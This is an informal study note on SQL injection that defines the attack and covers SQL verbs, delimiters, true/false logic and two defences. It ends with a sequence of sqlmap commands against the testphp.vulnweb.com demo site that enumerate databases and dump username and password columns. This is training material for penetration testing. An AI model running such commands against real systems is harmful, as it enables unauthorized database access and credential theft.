 **SQL INJECTION

sequel: sqli: structure query language injection


SQL injection:

sql injection is an attack in which malicious sql statement inject into sql databases.

like example: 	mysql
				oracle
				ms access 
				postgresql etc.
				


sql verbs:

union
select
insert
drop
delete


If our sql  oinjection is successfull?

1. we can read databases
2. we can extract information
3. modify the database
4. getting shell ( you can compromises there operating system also) os-shell


Common sql verbs:

this verbs are using in sql statemets.

1. SELECT: retreive data from the tables

2. INSERT: adds data to a tables

3. DELETE: remove the data from a data

4. UPDATE: modifies of data from table

5. DROP: delete a tables

6. UNION: combine the data from multiple queries


other common terms:

where: filtered the records on the specific condition.

AND/OR/NOT: filter records based on multiple condition.

ORDER BY: sorts the records in ascending or desending order.

FROM: from is actually filtering the records from specific tables or columns.


following statemets;

1. select * from users;

2. SELECT userid,username from Users;

3. SELECT * FROM users where state=HYD;

4. SELECT * FROM Users WHERE state='KA' AND username='Ajay';



special characters : (delimiter)

1. ' and " ---> strings delimiter

2. -- or /* or # ---> comment delimiter
 
3. * or % --> wild cards
 
4. ; --> end statements
 
5. another logical delimiter are using in sql statement like = , + , > < () etc.



sql defence:

1. parameterized statements:
2. sanitizing inputs:


sql statement depends on logic true and false

1=1 ture

1=0 false

2=1 false

2=2 true




						sql automation 



*GET Based

	sqlmap -h

	sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs

	sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart --tables

	sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users --columns

	sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname,pass --dump


*POST Based


	sqlmap -r sql --dbs

	sqlmap -r sql -D acuart --tables

	sqlmap -r sql -D acuart -T users --columns

	sqlmap -r sql -D acuart -T users -C  uname,pass --dump 








